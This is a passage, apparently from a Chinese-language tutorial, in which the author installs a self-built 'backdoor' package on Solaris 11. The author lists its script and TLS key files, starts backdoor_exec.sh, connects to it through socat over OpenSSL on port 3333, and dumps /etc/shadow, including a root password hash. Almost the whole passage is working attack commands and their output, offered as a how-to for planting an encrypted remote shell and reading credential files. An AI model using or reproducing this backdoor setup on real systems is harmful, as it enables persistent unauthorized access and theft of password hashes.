 哇！我们做到了！一种测试方法是安装我们的后门包：

```
root@solaris11:/backup/backdoor2# pkg install backdoor
           Packages to install:  1
       Create boot environment: No
Create backup boot environment: No

DOWNLOAD                     PKGS         FILES    XFER (MB)   SPEED
Completed                    1/1          4/4      0.0/0.0     373k/s

PHASE                                          ITEMS
Installing new actions                           9/9
Updating package state database                 Done 
Updating image state                            Done 
Creating fast lookup database                   Done 

root@solaris11:/backup/backdoor2# pkg contents backdoor
PATH
backdoor
backdoor/backdoor_exec.sh
backdoor/solaris11.crt
backdoor/solaris11.key
backdoor/solaris11.pem
```

最后，我们测试后门的功能。在第一个终端中，我们输入以下内容：

```
root@solaris11:/backdoor# ls
backdoor_exec.sh  solaris11.crt     solaris11.key     solaris11.pem
root@solaris11:/backdoor# ./backdoor_exec.sh 
In the second terminal: 

root@solaris11:/backdoor# socat STDIO OPENSSL-CONNECT:localhost:3333,cert=solaris11.pem,cafile=solaris11.crt

ls
backdoor_exec.sh
solaris11.crt
solaris11.key
solaris11.pem

cat /etc/shadow
root:$5$xduDW1lC$I23.j8uPlFFYvxuH5Rc/JHEcAnZz5nK/h55zBKLyBwD:15984::::::3568
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
netadm:*LK*:::::::
netcfg:*LK*:::::::
smmsp:NP:6445::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
upnp:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
```